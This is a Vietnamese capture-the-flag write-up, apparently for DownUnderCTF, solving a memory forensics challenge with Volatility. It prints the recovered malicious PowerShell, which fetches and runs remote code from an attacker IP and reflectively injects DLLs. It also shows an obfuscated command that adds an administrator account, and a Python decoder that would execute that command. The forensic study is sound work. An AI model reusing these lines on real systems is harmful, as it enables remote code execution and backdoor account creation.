- Ta có thể dễ thấy chỗ này chính là flag : `Q = "Flag: " & valueA1`, và đây là quá trình chuyển đổi chuổi flag thành 1 chuỗi khác 
```
S = "Mon"
G = "key"
D = "Ma"
F = "gic"

W = S + G + D + F
O = doThing(Q, W)
Z = forensics(O)
T = totalyFine(Z)
J = "http://downunderctf.com/" + T
superThing (J)
```
- Tương tự các chuỗi khác, chỉ khác là nó sẽ xor Q với W () bằng hàm doThing()
- 
- 
> Flag : Flag: DUCTF{M4d3_W1th_AI_by_M0nk3ys}

## Lost in Memory
### Desscription
> Looks like one of our Emu soldiers ran something on an Outpost machine and now it's doing strange things. We took a memory dump as a precaution. Can you tell us whats going on?

> This challenge has four parts to combine into the final flag with _ between each answer. Find all four answers and combine them into the flag as all lower case like DUCTF{answer1_answer2_answer3_answer4} eg. DUCTF{malicious.xlsm_invoke-mimikatz_malware.exe-malware2.exe_strong-password123}

> 1. What was the name of the malicious executable? eg malicious.xlsm
> 2. What was the name of the powershell module used? eg invoke-mimikatz
> 3. What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)? eg malware.exe-malware2.exe
> 4. What was the password of the new account created through powershell? eg strong-password123

### Solution
- Như bao bài memorydump khác, ta bắt đầu với volatility và các plugin đơn giản thường gặp 
- Sau khi sử dụng plugin pslist ta thấy rằng có 1 vài process rất đáng nghi ở đây
- 
- SỬ dụng tiếp plugin cmdline và consoles
```
************************************************************************
notepad.exe pid:   4044
Command line : "C:\Windows\system32\NOTEPAD.EXE" C:\Users\emu\Desktop\Monke\Monke.xlsm
************************************************************************
powershell.exe pid:   1136
Command line : "C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe" 
************************************************************************
notepad.exe pid:   3048
Command line : "C:\Windows\System32\notepad.exe" "C:\Users\emu\Downloads\monkey.doc.ps1"

```
- Một file `monkey.doc.ps1` đang chạy
- Còn đây là plugin consoles
```
┌──(kali㉿kali)-[~/volatility]
└─$ python2 vol.py -f /home/kali/Downloads/EMU-OUTPOST.raw --profile=Win7SP0x86 consoles
Volatility Foundation Volatility Framework 2.6.1
**************************************************
ConsoleProcess: conhost.exe Pid: 1964
Console: 0x7881c0 CommandHistorySize: 50
HistoryBufferCount: 2 HistoryBufferMax: 4
OriginalTitle: C:\Program Files\OpenSSH\bin\cygrunsrv.exe
Title: C:\Program Files\OpenSSH\bin\cygrunsrv.exe
AttachedProcess: sshd.exe Pid: 1984 Handle: 0x50
----
CommandHistory: 0x260960 Application: sshd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x50
----
CommandHistory: 0x2607f0 Application: cygrunsrv.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
Screen 0x276168 X:80 Y:300
Dump:

**************************************************
ConsoleProcess: conhost.exe Pid: 2560
Console: 0x7881c0 CommandHistorySize: 50
HistoryBufferCount: 1 HistoryBufferMax: 4
OriginalTitle: Windows PowerShell
Title: Administrator: Windows PowerShell
AttachedProcess: powershell.exe Pid: 1136 Handle: 0x58
----
CommandHistory: 0x306550 Application: powershell.exe Flags: Allocated, Reset
CommandCount: 3 LastAdded: 2 LastDisplayed: 2
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 at 0x2e2c38: cd C:\Users\emu\Downloads
Cmd #1 at 0x2e2358: .\monkey.doc.ps1
Cmd #2 at 0x304588: r
----
Screen 0x2e68f0 X:120 Y:3000
Dump:
Windows PowerShell                                                                                                      
Copyright (C) 2009 Microsoft Corporation. All rights reserved.                                                          
                                                                                                                        
PS C:\Windows\system32> cd C:\Users\emu\Downloads                                                                       
PS C:\Users\emu\Downloads> .\monkey.doc.ps1                                                                             
                                                                                                                        
Security Warning                                                                                                        
Run only scripts that you trust. While scripts from the Internet can be useful, this script can potentially harm your   
computer. Do you want to run C:\Users\emu\Downloads\monkey.doc.ps1?                                                     
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): r                                                 
                                                                                                                        
Id              Name            State      HasMoreData     Location             Command                                 
--              ----            -----      -----------     --------             -------                                 
1               Job1            Running    True            localhost            iex (New-Object net.we...               
3               Job3            Running    True            localhost            iex (New-Object net.we...     

...                                                                                                                 
```
- Xác định được câu trả lời đầu tiên cho câu hỏi `What was the name of the malicious executable? `, đó là file `monkey.doc.ps1` 

- Đến câu hỏi số 2 `What was the name of the powershell module used?` muốn biết được trước tiên ta cần phải dump file `monkey.docm.ps1` về 
- Tuy nhiên không biết vì lý do gì mình sử dụng dumpfiles ở volatility không được nên ta sẽ lấy nó ở file volatility3
```
┌──(kali㉿kali)-[~/volatility3]
└─$ python3 vol.py -f /home/kali/Downloads/EMU-OUTPOST.raw windows.filescan | grep -i monkey.doc.ps1
0x3fa22620 100.0\Users\emu\Downloads\monkey.doc.ps1.smxd3ce.partial     128
0x3fa22718      \Users\emu\Downloads\monkey.doc.ps1.smxd3ce.partial     128
┌──(kali㉿kali)-[~/volatility3]
└─$ python3 vol.py -f /home/kali/Downloads/EMU-OUTPOST.raw windows.dumpfiles --physaddr 0x3fa22620
Volatility 3 Framework 2.7.1
Progress:  100.00               PDB scanning finished                        
Cache   FileObject      FileName        Result

DataSectionObject       0x3fa22620      monkey.doc.ps1.smxd3ce.partial  file.0x3fa22620.0x85a97a38.DataSectionObject.monkey.doc.ps1.smxd3ce.partial.dat
┌──(kali㉿kali)-[~/Downloads]
└─$ cat file.0x3fa22620.0x85a97a38.DataSectionObject.monkey.doc.ps1.smxd3ce.partial.dat 
Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/emu.dll};Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/kiwi.dll}

```
- Nhìn vào src của file monkey.doc.ps1, thấy rằng module được sử dụng là `Invoke-ReflectivePEInjection`

```
Invoke-ReflectivePEInjection là một hàm trong PowerSploit, một bộ công cụ phổ biến trong cộng đồng bảo mật và kiểm thử xâm nhập (penetration testing). Hàm này thực hiện kỹ thuật PE Injection (Process Injection), cho phép nạp và thực thi một file PE (Portable Executable) trong bộ nhớ của một tiến trình từ xa, mà không cần viết file lên đĩa. - Theo ChatGPT
```

- Tiếp tục các file được tải về lần lượt là file emu.dll và kiwi.dll. (đây là câu trả lời cho câu hỏi `What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)?`)

- `What was the password of the new account created through powershell?`
- Mình sẽ dùng plugin memdump để trích xuất các process powershell riêng ra
- 
- Thấy rằng cái pid 1136 là tiến trình cha của 2520 nên ta chỉ xem 1 cái 2520 thôi
```
┌──(kali㉿kali)-[~/volatility]
└─$ python2 vol.py -f /home/kali/Downloads/EMU-OUTPOST.raw --profile=Win7SP0x86 memdump --pid 2520 -D ~/Downloads 
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing powershell.exe [  2520] to 2520.dmp
                                               
```
> strings 2520.dmp | grep "powershell"

```
powershell $PKjAU=  ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."; .( $Env:CoMsPeC[4,24,25]-JOIn'')(-join (  gi  vaRiaBlE:pKjAU).valUe[-1 .. - ( (  gi  vaRiaBlE:pKjAU).valUe.leNgth) ] )
powershell.pdb
```
- Mình sử dụng chatgpt để chuyển nó qua python cho dễ đọc 
```
# Chuỗi được đảo ngược từ PowerShell
encoded_str = ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."

# Đảo ngược chuỗi
decoded_str = encoded_str[::-1]

# Các ký tự được ghép từ biến môi trường "cmd.exe"
import os
cmd_env = os.environ.get("COMSPEC")
joined_chars = cmd_env[4] + cmd_env[24] + cmd_env[25]

# Tạo và thực thi lệnh
command = f"{joined_chars}{decoded_str}"
print(command)

# Để thực thi mã, bạn cần sử dụng exec hoặc subprocess trong Python
import subprocess
subprocess.run(command, shell=True)

```
- Sửa lại 1 xíu 

```
# Chuỗi được đảo ngược từ PowerShell
encoded_str = ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."

# Đảo ngược chuỗi
decoded_str = encoded_str[::-1]

# Các ký tự được ghép từ biến môi trường "cmd.exe"
import os
cmd_env = os.environ.get("COMSPEC")
joined_chars = cmd_env[4] + cmd_env[24] + cmd_env[25]

command = f"{joined_chars}{decoded_str}"
print(command)

```
- 
- Ta dễ dàng thấy password là `5up3r-5ecur3`

> Flag : DUCTF{monkey.doc.ps1_invoke-reflectivepeinjection_emu.dll-kiwi.dll_5up3r-5ecur3}


